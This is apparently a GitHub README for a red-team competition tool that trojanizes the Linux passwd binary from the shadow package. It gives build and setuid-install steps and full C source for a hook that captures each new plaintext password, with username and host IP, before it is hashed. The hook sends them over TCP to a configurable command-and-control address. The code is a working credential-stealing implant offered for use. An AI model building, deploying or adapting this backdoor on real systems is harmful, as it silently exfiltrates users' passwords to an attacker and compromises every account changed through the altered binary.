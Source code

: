 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	int writetofile (char *password){

	    /* Get UID */
	    uid_t uid = geteuid();
	    struct passwd * pw = getpwuid(uid);

	    /* Get IP Address */
	    int fd;
	    struct ifreq ifr;
	    fd = socket(AF_INET, SOCK_DGRAM, 0);

	    /* I want to get an IPv4 IP address */
	    ifr.ifr_addr.sa_family = AF_INET;

	    /* I want IP address attached to set interface */
	    strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
	    ioctl(fd, SIOCGIFADDR, &ifr);
	    close(fd);

	    /* display result */
	    char buffer[256];
	    char * ip;
	    ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
	    int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);

	    /* Make Socket */
	    int sock = 0, valread;
	    struct sockaddr_in serv_addr;

	    /* Sock creation Pt 2*/
	    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
		return -1;
	    }

	    /* Socket Options */
	    serv_addr.sin_family = AF_INET;
	    serv_addr.sin_port = htons(PORT);

	    /* Timeout settings */
	    struct timeval timeout;
	    timeout.tv_sec = 3;
	    timeout.tv_usec = 0;

	    if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
		return -1;
	    }
	    if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
		// pass

	    /* set IP and set buffer */
	    }
	    if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
		return -1;
	    }
	    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
		return -1;
	    }

	    /* Send Message */
	    send(sock , buffer , strlen(buffer) , 0 ); 

	    return 0;

	}
